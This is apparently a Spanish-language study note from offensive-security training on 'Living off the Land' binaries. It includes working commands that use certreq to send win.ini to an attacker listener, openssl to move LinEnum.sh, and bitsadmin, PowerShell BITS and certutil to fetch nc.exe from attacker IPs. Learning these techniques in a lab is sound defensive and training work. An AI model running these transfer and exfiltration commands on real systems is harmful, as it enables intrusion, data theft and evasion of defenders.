

# Living off The Land

El término **"Living off the land"** fue acuñado por **Christopher Campbell** (@obscuresec) y **Matt Graeber** (@mattifestation) en **DerbyCon 3**.

El término **LOLBins** (Living off the Land Binaries) surgió de una discusión en Twitter sobre cómo llamar a los binarios que un atacante puede usar para realizar acciones más allá de su propósito original. Actualmente, hay dos sitios web que agregan información sobre los binarios Living off the Land:

* **LOLBAS Project** para binarios de Windows
* **GTFOBins** para binarios de Linux

Los binarios de Living off the Land pueden usarse para realizar funciones como:

* Descargar archivos
* Subir archivos
* Ejecución de comandos
* Leer archivos
* Escribir archivos
* Evadir mecanismos de seguridad

Esta sección se centrará en el uso de los proyectos **LOLBAS** y **GTFOBins** y proporcionará ejemplos de funciones de descarga y carga en sistemas Windows y Linux.

## Usando los Proyectos LOLBAS y GTFOBins

Los sitios web de **LOLBAS** para Windows y **GTFOBins** para Linux nos permiten buscar binarios que pueden ser utilizados para diferentes funciones.

### **LOLBAS**

Para buscar funciones de descarga y carga en LOLBAS, podemos utilizar las rutas `/download` o `/upload`.

**Ejemplo con CertReq.exe:**

Necesitamos escuchar en un puerto en nuestro host de ataque usando **Netcat** y luego ejecutar **certreq.exe** para subir un archivo.

<figure><figcaption></figcaption></figure>

### **Subir win.ini a nuestro Pwnbox**

```bash
C:\htb> certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini
```

_Error potencial:_

```
Certificate Request Processor: The operation timed out 0x80072ee2 (WinHttp: 12002 ERROR_WINHTTP_TIMEOUT)
```

Esto enviará el archivo a nuestra sesión de Netcat, donde podemos copiar y pegar su contenido.

### **Archivo recibido en nuestra sesión de Netcat**

```bash
sherlock28@htb[/htb]$ sudo nc -lvnp 8000
```

```
listening on [any] 8000 ...
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.1] 53819
POST / HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
Content-Length: 92
Host: 192.168.49.128:8000

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

Si obtenemos un error al ejecutar **certreq.exe**, es posible que la versión que usamos no contenga el parámetro **-Post**. Se puede descargar una versión actualizada e intentarlo de nuevo.

## **GTFOBins**

Para buscar funciones de descarga y carga en **GTFOBins** para binarios de Linux, podemos usar `+file download` o `+file upload`.

**Ejemplo con OpenSSL:**

**OpenSSL** es frecuentemente instalado y utilizado por administradores de sistemas para generar certificados de seguridad, entre otras tareas. **OpenSSL** puede ser usado para enviar archivos de manera similar a **Netcat**.

### **Crear un Certificado en nuestro Pwnbox**

```bash
sherlock28@htb[/htb]$ openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```

Generar una clave privada RSA:

```
Generating a RSA private key
.......................................................................................................+++++
................+++++
writing new private key to 'key.pem'
-----
```

### **Iniciar el Servidor en nuestro Pwnbox**

```bash
sherlock28@htb[/htb]$ openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

Con el servidor en ejecución, podemos descargar el archivo desde la máquina comprometida.

### **Descargar un Archivo desde la Máquina Comprometida**

```bash
sherlock28@htb[/htb]$ openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

## Otras Herramientas Comunes de Living off the Land

### **Función de Descarga de Bitsadmin**

El **Background Intelligent Transfer Service** (**BITS**) puede usarse para descargar archivos desde sitios **HTTP** y comparticiones **SMB**. BITS gestiona la utilización del host y la red para minimizar el impacto en el trabajo del usuario.

### **Descargar Archivos con Bitsadmin**

```bash
PS C:\htb> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

**PowerShell** también permite interactuar con **BITS**, habilitando descargas y subidas de archivos, soporte de credenciales y el uso de servidores proxy especificados.

**Descarga con PowerShell**

```bash
PS C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

## Certutil

**Casey Smith** (@subTee) descubrió que **Certutil** puede usarse para descargar archivos arbitrarios. Está disponible en todas las versiones de Windows y ha sido una técnica popular de transferencia de archivos, sirviendo como una especie de **wget** para Windows. Sin embargo, actualmente, la interfaz **AMSI** detecta esto como un uso malicioso de **Certutil**.

**Descargar un Archivo con Certutil**

```bash
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```
